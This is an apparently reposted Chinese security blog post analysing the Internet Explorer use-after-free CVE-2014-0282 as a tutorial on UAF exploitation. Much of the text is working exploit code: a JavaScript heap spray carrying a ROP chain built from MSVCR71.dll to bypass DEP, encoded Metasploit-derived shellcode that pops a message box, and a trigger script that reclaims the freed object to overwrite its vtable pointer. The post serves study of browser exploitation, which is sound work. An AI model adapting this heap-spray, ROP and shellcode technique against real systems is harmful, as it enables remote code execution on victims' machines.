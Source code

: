 ```yaml
---
layout: post
title: "IE浏览器UAF漏洞CVE-2014-0282的分析与利用"
categories:
- 今日头条
tags:
---
```

0x00 前言

UAF(Use-After-Free)类型漏洞已经成为exploit的主流漏洞，2016年Pwn2Own中出现频率最高的也是UAF类型漏洞，因此有必要整理一下UAF漏洞的利用方法了。笔者在本文中将以CVE-2014-0282为例，梳理一下利用UAF漏洞的基本步骤，对于不熟悉UAF漏洞类型的读者应该有一些指导作用。相对于其他各类UAF漏洞，诸如内核UAF漏洞等，CVE-2014-0282是出现在IE浏览器中的一个很简单的例子，但是通过该漏洞还是可以学到不少东西。

此外，还有一篇来自NCC的关于该CVE的分析，该分析同样非常详细，讲得也比较透彻，美中不足是并没有给出EXP代码。这里，如果读者未能理解笔者本文所写的内容，可以去看一看这篇NCC的分析。网址如下：

https://www.nccgroup.trust/globalassets/our-research/uk/whitepapers/2015/12/cve-2014-0282pdf

0x01 漏洞概述

CVE-2014-0282为IE浏览器中的UAF漏洞，影响IE6 – IE9的各个版本。可以在exploit-db上直接找到该CVE的POC，这里摘录如下：

![](http://p1.pstatp.com/large/11ff0003c51c75efa577)

完整POC：https://www.exploit-db.com/exploits/33860

通过POC代码以及相关的注释，可以直观的推测其漏洞的成因：由于changer()为child2的onpropertychange属性，所以在reset()函数中会调用changer()函数，而changer()会销毁form并释放相关的内存，导致reset()函数在后续的执行中引用已释放的内存，形成UAF类型的漏洞。用windbg调试时，可以看到与推测相符合的结果：

![](http://p3.pstatp.com/large/127d000071e0b70b7f32)

上图中，程序在mshtml!CFormElement::DoReset函数引用已被释放的内存，读取错误的虚表指针，导致执行到了奇怪的地方。后文的分析环境如下：

分析系统： win7 虚拟机IE版本： win7自带的IE8其他软件： JRE6 (exploit需要用到)

0x02 利用分析

在浏览器中见到的UAF漏洞是相对较多的，所以笔者将在浏览器的环境下讨论UAF的利用。一般来讲，UAF漏洞是用来劫持EIP的，那么在劫持之前，需要进行内存部署，即将构造的shellcode置于内存之中。所以，浏览器中UAF类型的漏洞利用过程可大体分为两个步骤：

部署内存，通常选用Heap Spray方法实现。触发UAF漏洞，劫持EIP。

下面以CVE-2014-0282来进行讨论。

0x02.1 部署内存

为了更准确的传达笔者的意思，这里选择直接帖代码的方式进行叙述：

<script>

function alloc(bytes, mystr) {

while (mystr.length<bytes) mystr += mystr;

return mystr.substr(0, (bytes-6)/2);

}

block_size = 0x1000;

padding_begin_size = 0x5F4;

Padding_begin = '';

Padding_end = '';

var Shellcode = unescape(

//----------------------------[ROP] ----------------------//

"%u653d%u7c37" +

"%ufdff%uffff" +

"%u7f98%u7c34" +

"%u15a2%u7c34" +

"%uffff%uffff" +

"%u6402%u7c37" +

"%u1e05%u7c35" +

"%u5255%u7c34" +

"%u2174%u7c35" +

"%u4f87%u7c34" +

"%uffc0%uffff" +

"%u1eb1%u7c35" +

"%ud201%u7c34" +

"%ub001%u7c38" +

"%u7f97%u7c34" +

"%ua151%u7c37" +

"%u8c81%u7c37" +

"%u5c30%u7c34" +

//--------------------------[Junk]------------------------//

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +

"%u9090%u9090" +//-----------------------------[shellcode] ----------------------//

"%uebd9%ud99b%u2474%u31f4%ub2d2%u3177%u64c9%u718b%u8b30%u0c76%u768b%u8b1c%u0846" +

"%u7e8b%u8b20%u3836%u184f%uf375%u0159%uffd1%u60e1%u6c8b%u2424%u458b%u8b3c%u2854" +

"%u0178%u8bea%u184a%u5a8b%u0120%ue3eb%u4934%u348b%u018b%u31ee%u31ff%ufcc0%u84ac" +

"%u74c0%uc107%u0dcf%uc701%uf4eb%u7c3b%u2824%ue175%u5a8b%u0124%u66eb%u0c8b%u8b4b" +

"%u1c5a%ueb01%u048b%u018b%u89e8%u2444%u611c%ub2c3%u2908%u89d4%u89e5%u68c2%u4e8e" +

"%uec0e%ue852%uff9f%uffff%u4589%ubb04%ud87e%u73e2%u1c87%u5224%u8ee8%uffff%u89ff" +

"%u0845%u6c68%u206c%u6841%u3233%u642e%u7568%u6573%u3072%u88db%u245c%u890a%u56e6" +

"%u55ff%u8904%u50c2%ua8bb%u4da2%u87bc%u241c%ue852%uff5f%uffff%u6f68%u5878%u6820" +

"%u6761%u4265%u4d68%u7365%u3173%u88db%u245c%u890a%u68e3%u2058%u2020%u2068%u2020" +

"%u6820%u3636%u3638%u7a68%u7a7a%u3136%u88c9%u244c%u890c%u31e1%u52d2%u5153%uff52" +

"%u31d0%u50c0%u55ff%u4108"

);

for (p = 0; p < padding_begin_size; p++){

Padding_begin += unescape('%u4141');}

for (c = 0; c < block_size; c++){

if (c == 40){

Padding_end += '\u8b05\u7c34'; // 0x7c348b05

c++;

}else

{

Padding_end += unescape('%u7a7a');

}

}

Padding_end = Padding_end.substring(0,block_size - (Shellcode.length + Padding_begin.length));

var OBJECT = Padding_begin + Shellcode + Padding_end;OBJECT = alloc(0xfffe0, OBJECT);var evil = new Array();

for (var k = 0; k < 150; k++) {

evil[k] = OBJECT.substr(0, OBJECT.length);

}</script>

上述代码中，构造堆喷块长度为0xfffe0，这是因为0xfffe0加上堆头0x20字节长度的信息整好等于1MB，如下：

![](http://p1.pstatp.com/large/127d000071e1c3a36691)

上图中，每个堆块及其堆头信息的大小都是1MB，起始地址的低5位基本是不变的（除了前几个）。

每个堆块中含有若干个组shellcode信息，每组的长度为0x2000（代码中的0x1000）字节，其结构如下：

![](http://p1.pstatp.com/large/1279000071f1f112f2e6)

其中，Padding begin用’A’填充，Padding end用’z’填充，ROP是为了过DEP而设置的，Junk用’0x90’填充。

Code部分的起始偏移地址为0xBE8（代码中的0x5F4），该地址是在当前调试环境中计算而来：0x0c0c0c0c-0c0c0024=0xBE8，如下图所示：

![](http://p1.pstatp.com/large/1279000071ef255c5768)

其中，0x0c0c0014为上一组shellcode的padding end部分，填充为字符’z’，而0x0c0c0024为当前组的shellcode的padding begin部分，填充为字符’A’。而0x0c0c0c0c是被选择利用的地址，在第二步劫持EIP中会将被释放的对象虚表指针改写为0x0c0c0c0c。

ROP是依据MSVCR71.dll构建的，重现漏洞需要安装JRE6才可以。其ROP的目的是构造参数并调用VirtualProtect函数，以绕过DEP的限制。其中，0x7c348b05为MSVCR71.dll中xchg eax,esp的指令地址。ROP执行完毕后，会跳到第一条Junk位置继续执行，即跳到0x0c0c0c54位置继续执行。下图中展示了地址为0x7c348b05的指令，以及第一条Junk指令：

![](http://p1.pstatp.com/large/1279000071f0910c774e)

完整的ROP是直接摘自corelan team的，如果对此部分ROP比较感兴趣，可以去corelan team的主页上找到相关内容。

最后，Code还有一部分Shellcode的功能为弹出messagebox，其提示内容为zzz66686。Shellcode的大致运行流程是通过PEB结构找到kernel32模块，并调用loadlibrary得到user32句柄：

![](http://p9.pstatp.com/large/11ff0003c51e981f4088)

得到user32.dll的句柄之后，找到user32的导出函数messagebox，并构造适当的参数调用messagebox函数弹出消息窗口。

完整的Shellcode虽然来自于metasploit，通过msfvenom 指令可以直接生成所需的shellcode，但这实际上也是出自corelan team的手笔，如果对此部分感兴趣，同样可以去corelan team的主页上翻一翻。

0x02.2 劫持EIP

一小节中，部署内存主要是靠堆喷来完成，与UAF漏洞本身并没有太大的关系。在此小节中，将介绍如何劫持EIP。利用UAF漏洞劫持EIP最常见的方法就是覆盖虚表，在CVE-2014-0282中也是如此。

在第一章节中，已经提到漏洞出现的原因是引用已经被释放的textarea，通过IDA分析mshtml.dll可以知道CTextArea的大小为0x60字节，此部分在NCC的分析中有详细叙述，感兴趣的可以去了解一下。因此，可以通过申请一系列大小为0x60的元素，填充被释放的内存空间，从而覆盖需要实现劫持EIP的目的，代码如下：

<script>var startfl=false;

function changer() {

if (startfl) {

var c = new Array(100);

for (var a = 0; a < 100; a++)

{

c[a] = document.createElement('img');

}

document.getElementById("testfm").innerHTML = "";

CollectGarbage();var b1 = unescape("%u0c0c%u0c0c");

for (var a = 4; a < 94; a += 2)

{

b1 += "%u4242";

}

b = unescape(b1)

for (var a = 0; a < c.length; a++)

{

c[a].title = b;

}

}}

document.getElementById("child2").checked = true;document.getElementById("child2").onpropertychange=changer;startfl = true;document.getElementById("testfm").reset(); </script>

上述代码中，创建了100个img元素，并利用img元素的标题字符串填充被释放的部分内存。由于堆的管理方式各不相同，精确地找到并占用被释放的内存块较为困难；但大体上来说，如果被释放的大小与新申请的大小相匹配，那么很有可能申请到刚刚被释放的区域。此外，100个img元素也增加了申请到被释放区域的概率。

每个标题是长度为94字节的字符串，再加上2字节的结尾标志，总共是96字节，即0x60字节。每个字符串的前4字节为0c0c0c0c，用以覆盖虚表指针，后续字节用字母’B’填充。

![](http://p1.pstatp.com/large/11ff0003c51f973121f3)

上图中，可以看到对象的虚表指针已被改写为0x0c0c0c0c，这与2.1小节中所述的0x0c0c0c0c关联了起来。程序继续运行时，就会到0x7c348b05的位置，执行xchg eax,esp进而开始ROP的执行。

0x03 小结

按照第2章节所述的方法部署内存并出发UAF漏洞之后，可以观察到效果如下图所示：

![](http://p3.pstatp.com/large/11ff0003c51d75d09be9)

CVE-2014-0282在MS14-035中得到了修复，但是MS14-035总共修复了60个漏洞，所以做补丁对比有些困难，这里也就不做补丁对比了。此外，这里想强调的是，堆喷是一种部署内存的方法，与UAF漏洞本身并没有直接关系。UAF最本质的定义是引用了被释放的内存，在浏览器中出现此类漏洞的比例要高一些，通过UAF能干很多事，劫持EIP是最常见的一种，如本文中的分析。希望读者看完本文的分析之后，不要误以为UAF只能干这点事。

from：http://www.mottoin.com/92909.html